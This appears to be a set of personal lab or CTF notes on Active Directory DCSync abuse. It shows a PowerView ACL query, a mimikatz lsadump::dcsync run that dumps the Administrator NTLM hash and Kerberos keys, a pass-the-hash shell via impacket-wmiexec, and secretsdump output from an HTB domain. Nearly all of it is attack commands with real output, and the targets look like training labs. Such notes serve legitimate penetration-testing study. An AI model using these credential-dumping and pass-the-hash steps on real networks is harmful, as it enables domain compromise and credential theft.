 # DSync rights



## Dump Hashes with user that has DCSync rights

How to identify if you have DCsync rights?

Tried the steps with PowerView from here [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync) but not sure how should work. The output can be seen below. There is an Error followed by some output

<pre data-title="" data-overflow="wrap" data-line-numbers><code>PS C:\Tools> Get-ObjectAcl -DistinguishedName "dc=corp,dc=com" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')} 

ERROR
<strong>Exception calling "Substring" with "1" argument(s): "StartIndex cannot be less than zero.                               Parameter name: startIndex"                                                                                             At C:\Tools\PowerView.ps1:8167 char:25                                                                                  + ...             $IdentityDomain = $IdentityInstance.SubString($IdentityIn ...                                         +                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                                                 + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException                                               + FullyQualifiedErrorId : ArgumentOutOfRangeException                                                                                                                                                                                       Get-DomainSearcher : Cannot validate argument on parameter 'Domain'. The argument is null or empty. Provide an          argument that is not null or empty, and then try the command again.                                                     At C:\Tools\PowerView.ps1:8170 char:56                                                                                  + ...                     $Searcher = Get-DomainSearcher @SearcherArguments                                             +                                                        ~~~~~~~~~~~~~~~~~~                                                 + CategoryInfo          : InvalidData: (:) [Get-DomainSearcher], ParameterBindingValidationException                    + FullyQualifiedErrorId : ParameterArgumentValidationError,Get-DomainSearcher                                                                                                                                                                                                                                                                                                                                                                                                               
</strong><strong>
</strong><strong>AceType               : AccessAllowed                                                                                   ObjectDN              : DC=corp,DC=com                                                                                  ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, GenericRead, WriteDacl, WriteOwner             OpaqueLength          : 0                                                                                               ObjectSID             : S-1-5-21-1987370270-658905905-1781884369                                                        InheritanceFlags      : None                                                                                            BinaryLength          : 36                                                                                              IsInherited           : False                                                                                           IsCallback            : False                                                                                           PropagationFlags      : None                                                                                            SecurityIdentifier    : S-1-5-21-1987370270-658905905-1781884369-512                                                    AccessMask            : 917949                                                                                          AuditFlags            : None                                                                                            AceFlags              : None                                                                                            AceQualifier          : AccessAllowed                                                                                                                                                                                                           AceType               : AccessAllowed                                                                                   ObjectDN              : DC=corp,DC=com                                                                                  ActiveDirectoryRights : GenericAll                                                                                      OpaqueLength          : 0                                                                                               ObjectSID             : S-1-5-21-1987370270-658905905-1781884369                                                        InheritanceFlags      : ContainerInherit                                                                                BinaryLength          : 36                                                                                              IsInherited           : False                                                                                           IsCallback            : False                                                                                           PropagationFlags      : None                                                                                            SecurityIdentifier    : S-1-5-21-1987370270-658905905-1781884369-519                                                    AccessMask            : 983551                                                                                          AuditFlags            : None                                                                                            AceFlags              : ContainerInherit                                                                                AceQualifier          : AccessAllowed                                                                                                                                                                                                           AceType               : AccessAllowed                                                                                   ObjectDN              : DC=corp,DC=com                                                                                  ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, Delete, GenericRead, WriteDacl, WriteOwner     OpaqueLength          : 0                                                                                               ObjectSID             : S-1-5-21-1987370270-658905905-1781884369                                                        InheritanceFlags      : ContainerInherit                                                                                BinaryLength          : 24                                                                                              IsInherited           : False                                                                                           IsCallback            : False                                                                                           PropagationFlags      : None                                                                                            SecurityIdentifier    : S-1-5-32-544                                                                                    AccessMask            : 983485                                                                                          AuditFlags            : None                                                                                            AceFlags              : ContainerInherit                                                                                AceQualifier          : AccessAllowed                                                                                                                                                                                                           AceType               : AccessAllowed                                                                                   ObjectDN              : DC=corp,DC=com                                                                                  ActiveDirectoryRights : GenericAll                                                                                      OpaqueLength          : 0                                                                                               ObjectSID             : S-1-5-21-1987370270-658905905-1781884369                                                        InheritanceFlags      : None                                                                                            BinaryLength          : 20                                                                                              IsInherited           : False                                                                                           IsCallback            : False                                                                                           PropagationFlags      : None                                                                                            SecurityIdentifier    : S-1-5-18                                                                                        AccessMask            : 983551                                                                                          AuditFlags            : None                                                                                            AceFlags              : None                                                                                            AceQualifier          : AccessAllowed 
</strong></code></pre>



{% code title="Using mimikatz to dump hashes" overflow="wrap" lineNumbers="true" %}
```
mimikatz # lsadump::dcsync /domain:corp.com /user:corp\Administrator                                                    [DC] 'corp.com' will be the domain                                                                                      [DC] 'DC1.corp.com' will be the DC server                                                                               [DC] 'corp\Administrator' will be the user account                                                                      [rpc] Service  : ldap                                                                                                   [rpc] AuthnSvc : GSS_NEGOTIATE (9)                                                                                                                                                                                                              Object RDN           : Administrator                                                                                                                                                                                                            ** SAM ACCOUNT **                                                                                                                                                                                                                               SAM Username         : Administrator                                                                                    Account Type         : 30000000 ( USER_OBJECT )                                                                         User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )                                                   Account expiration   :                                                                                                  Password last change : 8/16/2022 5:27:22 PM                                                                             Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-500                                                     Object Relative ID   : 500                                                                                                                                                                                                                      Credentials:                                                                                                              Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e                                                                                                                                                                                                   Supplemental Credentials:                                                                                               * Primary:NTLM-Strong-NTOWF *                                                                                               Random Value : 731b7c2aa33ef31284bed1e7895123de                                                                                                                                                                                             * Primary:Kerberos-Newer-Keys *                                                                                             Default Salt : WIN-D74CT1583SRAdministrator                                                                             Default Iterations : 4096                                                                                               Credentials                                                                                                               aes256_hmac       (4096) : 56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc                             aes128_hmac       (4096) : 3d58eb136242c11643baf4ec85970250                                                             des_cbc_md5       (4096) : fd79dc380ee989a4                                                                           OldCredentials                                                                                                            aes256_hmac       (4096) : aefc3b3587d7f6786dd4bd53647bc7ce09148c3556172fd86d2eb24a59924248                             aes128_hmac       (4096) : bae2ca0a0a705c2b965e10321860f4ca                                                             des_cbc_md5       (4096) : 0e7c641c573ddac2                                                                                                                                                                                               * Packages *                                                                                                                NTLM-Strong-NTOWF                                                                                                                                                                                                                           * Primary:Kerberos *                                                                                                        Default Salt : WIN-D74CT1583SRAdministrator                                                                             Credentials                                                                                                               des_cbc_md5       : fd79dc380ee989a4                                                                                  OldCredentials                                                                                                            des_cbc_md5       : 0e7c641c573ddac2                                                                                                                                                                                                                                                                                                                              mimikatz #
```
{% endcode %}

Using the same technique from PTH and with the hash found above

{% code title="Log in with the PTH tecnnic" overflow="wrap" lineNumbers="true" %}
```
/usr/bin/impacket-wmiexec -hashes :2892d26cdf84d7a70e2eb3b9f05c425e  Administrator@192.168.235.70
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
corp\administrator

C:\>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::3c34:78c3:e3d9:1a1d%14
   IPv4 Address. . . . . . . . . . . : 192.168.235.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.235.254
```
{% endcode %}

```
secretsdump.py htb/john@10.129.146.146

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
